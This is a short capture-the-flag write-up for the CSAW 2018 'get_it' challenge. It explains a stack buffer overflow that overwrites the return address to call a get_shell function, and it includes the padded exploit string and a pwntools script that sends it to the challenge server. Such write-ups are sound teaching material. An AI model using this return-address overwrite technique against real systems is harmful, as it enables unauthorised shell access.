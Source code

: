 # get_it

This is an easy, 50-point binary exploitation problem from CSAW2018.

## Reconnaissance

For this problem it looks like I need to call the `get_shell` function, probably by overwriting the return address.

![IDA_display.png](./IDA_display.png)

Here's the stack when I have just read in some input:

![stack.png](./stack.png)

The return address is at `0x7ffc2ae35b68` in this case. So here's the exploit string:

`"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHAAAABBBB\xb6\x05\x40\x00\x00\x00\x00\x00\n"`

And the solve:
![get_it_solved.png](./get_it_solved.png)

Here's the code:
```
### exploit-get_it.py

from pwn import *
from time import sleep

local = False
if local:
    p = process('./get_it')
else:
    p = remote('pwn.chal.csaw.io', 9001)

sleep(1)
p.send("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHAAAABBBB\xb6\x05\x40\x00\x00\x00\x00\x00\n")
p.interactive()
```
